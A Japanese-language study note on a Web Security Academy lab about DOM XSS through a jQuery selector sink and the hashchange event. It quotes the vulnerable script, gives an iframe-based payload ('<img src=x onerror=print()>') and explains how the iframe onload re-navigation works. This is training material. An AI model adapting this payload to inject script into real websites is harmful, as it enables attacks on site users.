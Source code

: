 
Date: 2025-09-22
Tags: 
Links: [[XSS]], [[WSA]]

***
## Lab: DOM XSS in jQuery selector sink using a hashchange event

1. URLのhash部分が変わったらトリガーされる仕様になっている。
```javascript
<script>
  $(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
  });
</script>
```

2. 
```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#"
        onload="this.src += '<img src=x onerror=print()>'">
</iframe>
```

1. 親ページに`<iframe src="...">`がある → ブラウザは iframe の src 先を読みに行く。
2. iframe 内のページが読み込まれる（ナビゲーション完了）と、iframe 要素の load イベントが発火する。
3. 親ページ側に onload 属性か addEventListener('load', ...) があれば、そのハンドラが実行される（このハンドラは親ページのコンテキストで評価され、this は親の iframe 要素を指す）。
4. そのハンドラ内で this.src を書き換えると（例：this.src += '…'）、iframe の src が変わり **再度ナビゲーション** が発生する（新しい src に対して読み込みが起きる）。
5. 新しい読み込みが終わると再び iframe の load（＝親側の onload）が発火する → 必要なら同じ操作を繰り返せる。


***
# References